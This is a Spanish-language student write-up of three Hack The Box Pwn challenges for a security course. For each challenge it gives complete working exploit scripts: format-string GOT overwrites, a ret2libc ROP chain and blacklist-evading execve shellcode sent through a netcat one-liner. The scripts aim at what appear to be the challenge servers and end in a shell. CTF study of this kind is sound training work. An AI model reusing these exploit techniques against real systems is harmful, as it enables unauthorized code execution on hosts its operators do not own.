# Información general

| Campo                 | Valor                               |
|-----------------------|-------------------------------------|
| Estudiante            | Djedrielle Alexander - 2024154899   |
| Estudiante            | Sebastian Donoso - 2024070154       |
| Profesor              | Dr. Herson Esquivel Vargas          |
| Puntos acumulados     | 2080 / 2300 XP                      |

---

# 1. Retos resueltos

> Duplicar la subsección completa (1.X) por cada reto resuelto.

## 1.1 [Nombre del reto]

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | [Pwn / Reversing / Web]      |
| Dificultad           | [Very Easy / Easy / Medium]  |
| Puntos (XP reward)   | [≤ 500]                      |
| Fecha de resolución  | [AAAA-MM-DD]                 |
| Resuelto por         | [Nombre]                     |

### Descripción del reto

[Breve resumen de lo que plantea el reto y qué archivos o servicio se entregan.]

### Procedimiento

**Paso 1 — [Reconocimiento / análisis inicial]**

[Explicación de lo que se hizo y por qué.]


**Paso 2 — [Identificación de la vulnerabilidad]**

[Explicación.]


**Paso 3 — [Explotación]**

[Explicación. Si se usó un script, incluirlo y comentar las partes clave.]

```python
# exploit.py
```


### Herramientas utilizadas

| Herramienta       | Uso en el reto                         |
|-------------------|----------------------------------------|
| [p. ej. Ghidra]   | [Descompilar el binario]               |
| [p. ej. pwntools] | [Automatizar el envío del payload]     |

### Debilidad (CWE)

**CWE-[XXX]: [Nombre de la debilidad]**

[Cómo se manifiesta esta debilidad en el código o la aplicación del reto.]

### Patrón de ataque (CAPEC)

**CAPEC-[XXX]: [Nombre del patrón]**

[Cómo se aplicó este patrón para explotar la debilidad.]

### Bandera

```
HTB{...}
```


## 1.1 r0bob1rd

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Pwn      |
| Dificultad           | Easy  |
| Puntos (XP reward)   | 260                      |
| Fecha de resolución  | 4/10/2026                 |
| Resuelto por         | Djedrielle Alexander                     |

### Procedimiento

**Paso 1 — Reconocimiento**

Se utilizó Ghidra para analizar el binario r0bob1rd.





También se utilizó checksec para ver las medidas de seguridad aplicadas al binario:
```
checksec --file=r0bob1rd
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		2r0bob1rd
```

**Paso 2 — Identificación de la vulnerabilidad**

Se observó que la función `printf(local_78)` no posee formateo de la cadena que imprime. Esto da paso a la explotación de la vulnerabilidad Format String. También se observó que `fgets(local_78,0x6a,stdin)` deja escribir 106 bytes en un buffer de longitud 104. Lo cual permite modificar el canary del stack.

**Paso 3 — Explotación**

```python
from pwn import *
import re

STACK_CHK_FAIL_GOT = 0x602028
MAIN               = 0x400c0f
OFFSET_LIBC        = 0x10E077      # leak(%3$p) - libc_base, el que ya calculaste

filename = "./r0bob1rd"
context.update(arch='amd64', os='linux')

binary = ELF(filename, checksec=False)
libc   = ELF("./glibc/libc.so.6", checksec=False)   # la libc del reto

#io = process(filename)

io = remote("154.57.164.72", 30272)

offset = 8                         # tu buffer arranca en la posición 8

def prepare(payload):
    return payload + b"A" * (104 - len(payload))

# ---------- Iteración 1: __stack_chk_fail GOT -> main (habilita el loop) ----------
payload = b"%4197391x%10$nAA" + p64(STACK_CHK_FAIL_GOT)
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))

# ---------- Iteración 2: leak de libc con %3$p ----------
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(b"%3$p"))

io.recvuntil(b"[Description]\n")
leak_line = io.recvline()
leak = int(re.search(rb"0x[0-9a-f]+", leak_line).group(), 16)

libc_base   = leak - OFFSET_LIBC
system_addr = libc_base + libc.sym['system']

log.info(f"leak      : {hex(leak)}")
log.info(f"libc base : {hex(libc_base)}")
log.info(f"system()  : {hex(system_addr)}")
assert libc_base & 0xfff == 0, "base no alineada — revisá offset/posición del leak"

# ---------- Iteración 3: printf GOT -> system ----------
payload = fmtstr_payload(offset, {binary.got['printf']: system_addr}, write_size='short')
assert len(payload) <= 104, f"payload de {len(payload)} bytes no entra en el buffer"
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))

# ---------- Iteración 4: disparar system("/bin/sh") ----------
io.sendline(b"1")
io.sendline(b"/bin/sh")

io.interactive()
```
#### Encontrar la ubicacion en memoria donde printf escribe el buffer.


#### Encontrar la direccion base de libc en el host remoto.

Si colocamos un breakpoint justo donde se llama al printf que imprimer el buffer y analizamos los registros podemos ver lo siguiente:

En el host remoto



En local



Con el comando `(gdb) info proc mappings` podemos ver la dirección base de libc.so.6
`0x00007ffff7c35000 0x00007ffff7c57000 0x22000            0x0                r--p  /home/djedrielle-alexander/Documents/TEC/Sem6/Segu/Proyectos/segu_p2/scripts/djedrielle/r0bob1rd/a12c7342-35e9-447d-aec5-e2c7b83f695a/glibc/libc.so.6`

Entonces el offset que hay entre la direccion ubicada en el registro rcx y la direccion base de libc.so.6 local es


Con esto tenemos la siguiente formula para encontrar la direccion base de libc.so.6 en el host remoto: `base_libc_remoto = (leak_remoto_de_%3$p) - 0x10E077`

#### Encontrar el offset de la funcion system() de libc


#### Modificar la direccion de retorno de la funcion __stack_chk_fail()
Para tener mayor libertad y poder aprovechar al máximo la vulnerabilidad Format String. Se modificará la dirección de retorno de la función __stack_chk_fail() para que apunte a la dirección donde se encuentra la función main(). De esta manera se dispondrá de múltiples ejecuciones de la función vulnerable. Para esto necesitamos la dirección en GOT de la función __stack_chk_fail() y la dirección en memoria de main().

Offset de __stack_chk_fail()



Offset de main



Las líneas 24, 25 y 26 del script [main_loop.py](scripts/djedrielle/r0bob1rd/a12c7342-35e9-447d-aec5-e2c7b83f695a/main_loop.py) conseguimos modificar la dirección de retorno.

```py
payload = b"%4197391x%10$nAA" + p64(STACK_CHK_FAIL_GOT)
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))
```

Con esto ya conseguimos varias iteraciones de main sin hacer exit. Esto lo podemos aprovechar para leakear la direccion base de libc y posteriormente (analizando el offset de system() en el archivo local de libc.so.6) encontrar la dirección de la función system(). En el script .py la iteración 2 se trata de esto.

```py
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(b"%3$p"))

io.recvuntil(b"[Description]\n")
leak_line = io.recvline()
leak = int(re.search(rb"0x[0-9a-f]+", leak_line).group(), 16)

libc_base   = leak - OFFSET_LIBC
system_addr = libc_base + libc.sym['system']

log.info(f"leak      : {hex(leak)}")
log.info(f"libc base : {hex(libc_base)}")
log.info(f"system()  : {hex(system_addr)}")
```

Por último, lo que queda es modificar la entrada de GOT de printf para que apunte a la dirección de system() y en la siguiente iteración pasar "/bin/sh" como parámetro de printf.

```py
# ---------- Iteración 3: printf GOT -> system ----------
payload = fmtstr_payload(offset, {binary.got['printf']: system_addr}, write_size='short')
assert len(payload) <= 104, f"payload de {len(payload)} bytes no entra en el buffer"
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))

# ---------- Iteración 4: disparar system("/bin/sh") ----------
io.sendline(b"1")
io.sendline(b"/bin/sh")
```
Con esto logramos tener un shell interactivo:



### Herramientas utilizadas

| Herramienta       | Uso en el reto                         |
|-------------------|----------------------------------------|
| Ghidra   | Descompilar el binario               |
| pwntools | Automatizar el envío del payload     |

### Debilidad (CWE)

**CWE-134: Uso de una cadena de formato controlada externamente**

La función `printf(local_78)` recibe el buffer del usuario como cadena de formato, en lugar de usar un formato fijo (`printf("%s", local_78)`). Esto permite inyectar especificadores como `%p` y `%n` para leer y escribir memoria arbitraria.

### Patrón de ataque (CAPEC)

**CAPEC-135: Inyección de cadena de formato**

Se inyectaron especificadores de formato (`%p`, `%n`, `%x`) en la entrada para leakear la dirección base de libc y sobrescribir entradas de la GOT (`__stack_chk_fail` → `main` y `printf` → `system`), hasta lograr la ejecución de `system("/bin/sh")`.

### Bandera

```
HTB{86455bae8e16bb81f3e76ab892669d68}
```

---

## 1.2 Restaurant

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Pwn      |
| Dificultad           | Easy  |
| Puntos (XP reward)   | 260                      |
| Fecha de resolución  | 17/10/26                 |
| Resuelto por         | Djedrielle                     |

### Descripción del reto

Reto de Pwn que entrega un binario ELF de 64 bits (`restaurant`) y su `libc.so.6`. El programa simula un restaurante con un menú interactivo. El objetivo es obtener una shell en el servicio remoto para leer la bandera.

### Procedimiento

**Paso 1 — Reconocimiento / análisis inicial**

Lo primero que se hizo fue ejecutar el binario `restaurant` con el fin de analizar su comportamiento. Probando distintas entradas se observó que existe un buffer overflow:



Con `checksec` se revisaron las protecciones del binario:



Esto define la estrategia: **No canary** y **No PIE** permiten sobrescribir la dirección de retorno y usar gadgets en direcciones fijas, mientras que **NX** descarta shellcode en la pila y **Full RELRO** descarta sobrescribir la GOT.

**Paso 2 — Identificación de la vulnerabilidad**

El overflow está en la función `fill()`, que lee hasta `0x400` (1024) bytes con `read()` sobre un buffer de solo 32 bytes:



Como `read()` no valida el tamaño real del buffer, a partir del byte **40** (32 del buffer + 8 del RBP guardado) se sobrescribe la dirección de retorno y se controla el flujo. El offset se confirmó con un patrón cíclico de pwntools.

Dado que el binario no tiene función "ganadora" ni `system`/`/bin/sh`, y NX impide shellcode, se explotó mediante **ret2libc**: filtrar una dirección de libc para derrotar ASLR y luego llamar a `system("/bin/sh")`.

**Paso 3 — Explotación**

El ataque se automatizó con pwntools en dos etapas:

- **Etapa 1 (leak):** cadena ROP que llama `puts(puts@GOT)` para imprimir la dirección real de `puts` y retorna a `fill()`. Con ese leak se calcula la base de libc.
- **Etapa 2 (shell):** segunda cadena ROP `pop rdi → "/bin/sh" → system` (con un `ret` extra para alinear la pila a 16 bytes, por el `movaps` de `system`) que ejecuta `system("/bin/sh")`.

```python
from pwn import *

context.binary = exe = ELF("restaurant", checksec=False)

# Primera fase
if args.REMOTE:
    io = remote("154.57.164.70", 41591)
    libc = ELF("./libc.so.6", checksec=False)   # la libc del reto (coincide con el remoto)
else:
    io = process("./restaurant")
    libc = ELF(io.libc.path, checksec=False)     # la libc del sistema que corre en local

io.sendlineafter(b"> ", b"1")

rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
# Offset = 40: buffer en rbp-0x20 (32 bytes) + 8 del saved RBP.
payload1 = flat(
    b"A" * 40,
    pop_rdi,
    exe.got['puts'],
    exe.plt['puts'],
    exe.sym['fill'],
)
io.sendlineafter(b"> ", payload1)

# printf hace eco del payload; la direccion de puts son los 6 bytes antes del '\n' que agrega puts.
io.recvuntil(b"Enjoy your ")
leak = u64(io.recvline().rstrip(b"\n")[-6:].ljust(8, b"\x00"))
libc_base = leak - libc.sym['puts']
assert libc_base & 0xfff == 0, f"base no alineada: {hex(libc_base)}"

# Segunda fase: ejecutar system("/bin/sh")
libc.address = libc_base
system = libc.sym['system']
bin_sh = next(libc.search(b"/bin/sh"))

payload2 = flat(
    b"A" * 40,
    ret,                 # alineacion de pila a 16 bytes (movaps en system)
    pop_rdi,
    bin_sh,
    system,
)
io.sendlineafter(b"> ", payload2)   # se retorna a fill(), que reimprime su "> "
io.interactive()
```



### Herramientas utilizadas

| Herramienta         | Uso en el reto                                      |
|---------------------|-----------------------------------------------------|
| Ghidra              | Descompilar el binario y analizar la función `fill()` |
| checksec            | Identificar las protecciones (NX, No PIE, No canary) |
| ROPgadget           | Localizar el gadget `pop rdi; ret`                  |
| pwntools            | Construir el leak, la cadena ROP y automatizar el envío |

### Debilidad (CWE)

**CWE-121: Desbordamiento de buffer en la pila**

`read(0, buffer, 0x400)` escribe hasta 1024 bytes en un buffer de 32 bytes en la pila. Al no limitarse al tamaño real del buffer, se sobrescribe la dirección de retorno (offset 40), permitiendo controlar el flujo de ejecución.

### Patrón de ataque (CAPEC)

**CAPEC-100: Desbordamiento de buffers**

Se envió una entrada mayor que el buffer para sobrescribir la dirección de retorno y redirigir la ejecución a una cadena ROP (ret2libc), que tras filtrar la base de libc terminó llamando a `system("/bin/sh")`.

### Bandera

```
HTB{r3turn_2_th3_r3st4ur4nt!}
```

---

## 1.3 Execute

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Pwn                          |
| Dificultad           | Very Easy                    |
| Puntos (XP reward)   | 260                          |
| Fecha de resolución  | 7/10/2026                    |
| Resuelto por         | Sebastian Donoso             |

### Descripción del reto

Reto de Pwn que entrega un binario ELF de 64 bits (`execute`) compilado con la
pila ejecutable (`gcc execute.c -z execstack`). El programa lee hasta 60 bytes de
la entrada estándar y **los ejecuta directamente como código máquina**:

```c
char buf[62];
int size = read(0, buf, 60);
if(!check(blacklist, buf, size, strlen(blacklist))) exit(1337);
( ( void (*) () ) buf) ();     // convierte la entrada en función y la llama
```

### Procedimiento

**Paso 1 — Reconocimiento / análisis inicial**

Con `checksec` se confirmó que la pila es ejecutable (RWX) y que no hay NX, por lo
que el binario está pensado para ejecutar shellcode. No hace falta desbordar nada:
el programa salta a lo que uno escriba.



**Paso 2 — Identificación de la vulnerabilidad**

La única defensa es la función `check()`, que rechaza la entrada si contiene
**cualquiera** de 16 bytes en lista negra:

```
3b 54 62 69 6e 73 68 f6 d2 c0 5f c9 66 6c 61 67
```

Esos bytes son justo los de un shellcode `execve("/bin/sh")` típico: el número de
syscall de execve (`0x3b`), los caracteres de `/bin/sh` y de `flag`, y opcodes
comunes (`push rsp` 0x54, `pop rdi` 0x5f, `leave` 0xc9). Un shellcode estándar no
pasa el filtro.



**Paso 3 — Explotación: shellcode de una etapa enviado con `perl`**

Se construyó un único shellcode de **44 bytes** que hace `execve("/bin/sh")`
**esquivando los 16 bytes prohibidos**, con dos trucos:

- El string `/bin//sh` se guarda **cifrado con XOR 0x0d** y se descifra en tiempo
  de ejecución, para que no aparezcan los bytes `b i n s h` en la entrada.
- El número de syscall de execve es `59` (`0x3b`, prohibido), así que se arma en
  tiempo de ejecución como `0x40 - 5` (`mov al,0x40 ; sub al,5`).

La cadena `\x..` del shellcode se guardó en un archivo de texto
(`shellcode_perl.txt`) para no tener que teclearla en cada intento. Ese `.txt`
guarda los escapes **como texto** (176 caracteres), y se convierten a los 44
bytes reales al enviarlo con `printf`, que interpreta los `\x..`:

```bash
( printf "$(cat shellcode_perl.txt)" ; sleep 0.5 ; echo 'cat flag.txt' ; cat ) | nc <IP> <PUERTO>
```

Por qué cada parte:

- `printf "$(cat shellcode_perl.txt)"` lee la cadena del `.txt` y la convierte en
  los bytes crudos del shellcode en stdout (el programa los lee con `read(buf,60)`
  y salta a ellos).
- `sleep 0.5` es **esencial**: deja que el programa ejecute el shellcode **antes**
  de que lleguen los comandos. Si no, el `read` se tragaría el shellcode junto con
  `cat flag.txt`, y `flag` tiene letras prohibidas (`f,l,a,g`) → lo rechazaría
  `check()`.
- `echo 'cat flag.txt'` ya dentro de la shell lee la bandera.
- `cat` (al final) mantiene stdin abierto para seguir mandando comandos (`ls`, `id`).

> También se automatizó con pwntools en `scripts/sebastian/Execute/exploit.py`
> (variante de dos etapas: una primera etapa sin bytes prohibidos que vuelve a
> leer de stdin la segunda y salta a ella), útil para repetir la prueba.

